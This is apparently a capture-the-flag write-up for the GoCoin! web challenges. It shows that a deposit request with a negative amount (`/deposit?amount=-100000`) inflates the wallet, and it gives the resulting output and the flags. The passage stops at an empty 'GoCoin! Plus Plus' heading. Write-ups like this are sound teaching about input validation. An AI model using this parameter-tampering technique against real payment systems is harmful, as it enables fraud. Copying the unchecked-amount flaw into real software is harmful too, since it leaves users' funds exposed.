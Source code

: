 Flag: `CrossCTF{t1m1ng_att4ck5_r_4_th3_d3vil}`

# GoCoin!

## Problem

I thought blockchain was cool, so I made my own coin.

http://ctf.pwn.sg:8182

Creator - quanyang (@quanyang)

## Solution

Because the deposit function doesn't check if `amount` is negative, by doing `http://ctf.pwn.sg:8182/deposit?amount=-100000`, we are able to buy the flag.

```
You deposited -100000 GoCoins! into your bank!
You have 100001 GoCoins! in your wallet and -100000 in your bank!
Deposit 1 GoCoins into your bank here!
Withdraw 1 GoCoins from your bank here!
Buy a flag for 1.337 GoCoins! here.
```

Flag: `CrossCTF{G0C0in_Is_Th3_Nex7_Bi5_Th@ng!}`

# GoCoin! Plus

## Problem

I thought blockchain was cool, so I made my own coin.

GoCoin! Plus is the forked and improved version of GoCoin!.

Update: I've improved it! More secures and with real cryptos, it's a true cryptocoin now!

http://ctf.pwn.sg:2053

Creator - quanyang (@quanyang)

## Solution

It is the same as `GoCoin!`.

`http://ctf.pwn.sg:2053/deposit?amount=-100000` still works.

Flag: `CrossCTF{GoCoin!_Cash_Is_th3_m0St_5eCur3!!!!13337}`

# GoCoin! Plus Plus

## Problem
